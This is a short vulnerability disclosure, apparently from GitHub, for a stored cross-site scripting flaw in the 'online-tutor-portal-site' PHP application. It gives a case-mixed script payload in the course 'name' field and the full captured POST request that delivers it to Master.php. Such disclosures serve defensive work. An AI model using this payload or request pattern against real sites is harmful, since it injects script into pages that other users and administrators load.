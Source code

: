 # online-tutor-portal-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

Date: 2022-05-07

Vulnerability File: /otps/classes/Master.php

Vulnerability location: /otps/classes/Master.php?f=save_course, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/otps/classes/Master.php?f=save_course HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------23528694527160792041879147157
Content-Length: 940
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/otps/admin/?page=courses
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="id"

6
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="tutor_id"

4
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="name"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="description"

Sample Course 102
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="experience"

5
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="status"

0
-----------------------------23528694527160792041879147157
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------23528694527160792041879147157--

```

![](https://github.com/mikeccltt/0525/blob/main/online-tutor-portal-site/xss.gif?raw=true)
